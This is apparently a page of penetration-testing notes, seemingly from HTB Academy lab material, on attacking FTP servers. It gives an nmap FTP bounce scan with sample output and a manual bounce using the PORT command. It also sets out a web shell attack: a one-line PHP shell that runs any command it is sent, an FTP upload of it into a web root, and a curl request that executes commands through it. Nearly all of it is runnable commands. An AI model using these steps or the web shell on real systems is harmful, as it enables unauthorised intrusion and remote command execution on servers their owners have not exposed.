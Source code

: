 ### HTB Academy FTP Bounce Implementation
```bash
# Nmap FTP bounce scan
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

# Expected output:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http
```

### Manual FTP Bounce Attack
```bash
# Connect to FTP server
ftp vulnerable_ftp_server

# Use PORT command to target internal host
ftp> port 192,168,1,100,0,22  # Target 192.168.1.100:22
200 PORT command successful.

# Trigger connection with LIST
ftp> list
150 Here comes the directory listing.
# Connection attempt made to target
```

---

## 🗃️ File System Exploitation

### Web Shell Upload Attack
```bash
# Create PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload to web-accessible directory
ftp> cd /var/www/html
ftp> put shell.php
ftp> quit

# Execute commands
curl "http://target_ip/shell.php?cmd=whoami"
```
